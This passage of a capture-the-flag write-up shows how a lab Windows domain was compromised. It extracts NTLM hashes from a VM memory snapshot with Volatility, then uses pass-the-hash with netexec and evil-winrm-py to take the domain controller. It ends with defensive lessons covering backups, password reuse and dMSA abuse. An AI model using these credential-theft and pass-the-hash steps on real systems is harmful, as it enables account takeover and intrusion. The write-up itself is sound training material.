  -c 'lcd loot/vmbackup; cd "NightlyBackup_2024-11-01/memory forensics"; get "Windows Server 2019-Snapshot1.vmem"'
```

### Analyzing with Volatility 3

[Volatility](https://github.com/volatilityfoundation/volatility3) is the industry-standard open-source framework for memory forensics. It can extract artifacts like running processes, network connections, registry hives, and — most importantly — cached password hashes from memory dumps.

**Install Volatility 3 in an isolated environment:**

```shell
python3 -m venv .venv-vol
.venv-vol/bin/pip install --upgrade pip
.venv-vol/bin/pip install volatility3 pycryptodomex
```

**Identify the memory image profile:**

```shell
.venv-vol/bin/vol -q -f 'loot/vmbackup/Windows Server 2019-Snapshot1.vmem' windows.info.Info
```

```
Variable               Value
Kernel Base            0xf80725608000
Is64Bit                True
Major/Minor            15.17763
SystemTime             2026-05-09 14:08:58+00:00
NtSystemRoot           C:\Windows
NtProductType          NtProductServer
```

Key information: This is a **64-bit Windows Server** (build 17763 = Windows Server 2019) memory dump captured on May 9, 2026.

**Enumerate registry hives in memory:**

The `windows.registry.hivelist` plugin confirms that the critical `SAM`, `SYSTEM`, and `SECURITY` hives are present in the memory dump:

```shell
.venv-vol/bin/vol -q -f 'loot/vmbackup/Windows Server 2019-Snapshot1.vmem' \
  windows.registry.hivelist.HiveList
```

```
Offset           FileFullPath                                          File output
0xc30a2fe38000   \REGISTRY\MACHINE\SYSTEM                              Disabled
0xc30a3278e000   \SystemRoot\System32\Config\SAM                       Disabled
0xc30a32789000   \SystemRoot\System32\Config\SECURITY                  Disabled
0xc30a37244000   \??\C:\Users\Administrator\ntuser.dat                 Disabled
```

### Extracting Password Hashes

The `windows.hashdump` plugin extracts NTLM password hashes from the SAM registry hive in memory:

??? info "How does Hashdump work?"
    Volatility's `hashdump` plugin reads the `SAM` (Security Account Manager) and `SYSTEM` registry hives from the memory dump. It uses the `SYSTEM` hive's boot key to decrypt the SAM database, then extracts the stored NTLM password hashes for all local accounts. These hashes can be used for Pass-the-Hash attacks or offline cracking.

```shell
.venv-vol/bin/vol -q -f 'loot/vmbackup/Windows Server 2019-Snapshot1.vmem' \
  windows.hashdump.Hashdump
```

Recovered hashes:

| User               | RID  | LM Hash                          | NT Hash                          |
| ------------------ | ---- | -------------------------------- | -------------------------------- |
| **Administrator**  | 500  | `aad3b435b51404eeaad3b435b51404ee` | `f29e9c014295b9b32139b09a2790be3b` |
| Guest              | 501  | `aad3b435b51404eeaad3b435b51404ee` | `31d6cfe0d16ae931b73c59d7e0c089c0` |
| DefaultAccount     | 503  | `aad3b435b51404eeaad3b435b51404ee` | `31d6cfe0d16ae931b73c59d7e0c089c0` |
| WDAGUtilityAccount | 504  | `aad3b435b51404eeaad3b435b51404ee` | `28f8d934dee90b2ec824351cb0844479` |

The `Administrator` NTLM hash (`f29e9c014295b9b32139b09a2790be3b`) is the golden ticket to full domain compromise.

!!! note
    The LM hash `aad3b435b51404eeaad3b435b51404ee` is the hash of an empty string — this is normal behavior on modern Windows systems where LM hashing is disabled by default.

---

## Domain Compromise

### Authenticating as Domain Administrator

Using the extracted NTLM hash, authenticate as `Administrator` via Pass-the-Hash:

```shell
netexec smb 10.129.212.6 -u administrator -H f29e9c014295b9b32139b09a2790be3b
```

```
SMB         10.129.212.6    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.212.6    445    DC01             [+] checkpoint.htb\administrator:f29e9c014295b9b32139b09a2790be3b (Pwn3d!)
```

The `(Pwn3d!)` tag confirms full administrative access to the domain controller.

### Retrieving the Root Flag

Connect to the DC via WinRM using `evil-winrm-py` and retrieve the root flag:

```shell
evil-winrm-py -i 10.129.212.6 -u administrator -H f29e9c014295b9b32139b09a2790be3b
```

```
[*] Connecting to '10.129.212.6:5985' as 'administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> Get-Content C:\Users\max.palmer\Desktop\root.txt
9dab1cad684e637162dd61c0fe57bd7a
```


---

## Lessons Learned

### 1. Active Directory Object Lifecycle Management

Deleted AD objects that remain in the `Deleted Objects` container can be restored if an attacker has write access. Organizations should:

- **Audit permissions** on the `Deleted Objects` container — very few principals should have write access
- **Reduce the tombstone lifetime** if regulatory requirements allow, to minimize the window for object restoration attacks
- **Monitor** for object restoration events (Event ID 5136 with changes to `isDeleted` attribute)

### 2. Password Reuse Across Accounts

The `Checkpoint2024!` password was shared between `alex.turner` and `mark.davies`. This is a systemic issue in many organizations:

- **Enforce unique passwords** via fine-grained password policies (FGPPs)
- **Deploy a password filter** (e.g., Azure AD Password Protection) to block commonly reused passwords
- **Regular password audits** using tools like `DSInternals` to identify password reuse across the domain

### 3. Supply Chain Attacks via Extension Repositories

The `DevDrop` share functioned as an unverified extension repository where any user with write access could introduce malicious code:

- **Code signing** — Require all `.vsix` packages to be digitally signed by trusted publishers
- **Automated scanning** — Integrate malware scanning into the extension deployment pipeline
- **Least privilege** — Restrict write access to extension repositories to a dedicated service account, not regular users

### 4. CVE-2025-53779 — BadSuccessor (dMSA Abuse)

This vulnerability highlights the risks of new AD features that are enabled by default:

- **Patch promptly** — The August 2025 Patch Tuesday update addresses this CVE
- **Restrict OU permissions** — Audit who has "Create Child" permissions on OUs, as this is the minimum requirement for the attack
- **Monitor dMSA creation** — Alert on the creation of new `msDS-DelegatedManagedServiceAccount` objects, especially if their `msDS-ManagedAccountPrecededByLink` attribute points to privileged accounts
- **Consider disabling dMSA** if the feature is not required in your environment

### 5. VM Backup Security

Memory snapshots in VM backups contain plaintext credentials and sensitive data:

- **Encrypt VM backups** at rest using platform-level encryption (e.g., vSphere VM Encryption)
- **Restrict access** to backup shares — service accounts with backup access should be treated as Tier 0 assets
- **Rotate credentials** after snapshot operations to limit the exposure window

### 6. Defense in Depth

The complete attack chain exploited six distinct weaknesses. No single fix would have prevented the compromise. Organizations should implement layered defenses:

- **Tiered administration model** — Separate Tier 0 (Domain Controllers), Tier 1 (Servers), and Tier 2 (Workstations) with distinct administrative accounts
- **Privileged Access Workstations (PAWs)** — Ensure domain admin credentials are only used from hardened workstations
- **Continuous monitoring** — Deploy an AD-focused SIEM with detections for the specific attack techniques used (object restoration, SPN modification, dMSA creation, Pass-the-Hash)
